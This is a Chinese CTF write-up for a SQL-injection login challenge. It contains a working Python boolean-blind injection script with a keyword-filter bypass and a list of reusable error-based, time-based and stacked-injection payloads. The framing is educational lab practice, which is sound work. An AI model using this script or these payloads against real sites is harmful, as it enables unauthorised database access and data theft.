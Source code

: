 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{login_sqli_is_nice}`

## 思路
1. 访问环境时显示403，可以遍历一下常用的入口文件`index.php、admin.php、webshell.php、login.php`等，此处题目给了提示`login.php、user.php`
2. login.php界面有两种错误反馈，测试出**admin**账户存在
    - 账号或密码错误
    - 账号不存在
3. 与[sql注入-1](./sql注入-1.md)原理相同，判断出用户名处存在字符型sql注入
    ![](./images/sql2-1.png)   
    ![](./images/sql2-2.png)
4. 进一步发现union select注入，由于不展示select到的值，有两个结果作为返回值，开始写脚本进行报错注入。
```python
# -*- coding: utf-8 -*-
# @Date    : 2020-12-18
# @Author  : SuperJason
import requests
import string

url = 'http://092604a0-af99-4453-aedd-215fff67f97e.node3.buuoj.cn/login.php'
flag = ''
trueflag='8bef'
falseflag='5728'
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="

# select过滤
for i in range(1,50):
# 由于服务器限制了访问请求，上述for循环可以每次遍历少一点的数量，例如1-5,5-10,....
    # 可打印字符的ASCII码在33-128之间
    left = 32
    right = 127

    while right - left != 1:
        mid = (right + left) // 2        
        # target = 'select database()'        
        # target = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        # target = 'select group_concat(column_name) from information_schema.columns where table_name="fl4g"'
        target = 'select flag from fl4g'

        payload = "'and (ascii(substr(({}), {}, 1))>{})#".format(target, i, mid)
        #payload = payload.replace('from', 'frfromom')
        payload = payload.replace('select', 'selselectect')
        #payload = payload.replace('or', 'oorr')
        #payload = payload.replace('where', 'whwhereere')
        # 此处需要通过burpsuite等工具获得post的参数名
        data = {
            "name": "admin"+payload,
            "pass": 1
        }

        content = requests.post(url, data = data).text
        if trueflag in content:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print (flag)

# note
# fl4g,usc
# flag
# n1book{login_sqli_is_nice}

```

## 总结
这道题算是简单题，只对select进行了过滤，而且只是基于报错的注入。现在来扩宽一下sql注入的难度
- 关键字过滤可以用大小写、多重关键字、/**/、concat绕过
    - select、union、sleep、information_schema
    - table、and、or
- 用extractvalue报错注入
    - `1' and (extractvalue(1,concat(0x7e,user(),0x7e)));#`
    - `1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#`
    - `1' and (extractvalue(1,concat(0x7e,version(),0x7e)));#`
- 时间盲注需要用到sleep(n)，盲注通用语句
    - `sql="select(if(ascii(mid((select group_concat(schema_name) from information_schema.schemata),{},1))={},sleep(3),0))".format(str(num), str(ord(char)))`
- 进一步的关键字都被过滤，时间盲注关键字也无效，考虑SQL语句的转码。使用**堆叠注入**的方式执行**16进制编码的SQL语句**。
通用payload如下
    - `1';Set @x=SQL语句;Prepare a from @x;Execute a;#`
    - SQL语句：`concat("SE","lect flag from table")`
    - 注意`SQL语句`如果是16进制需要在前面加`0x`
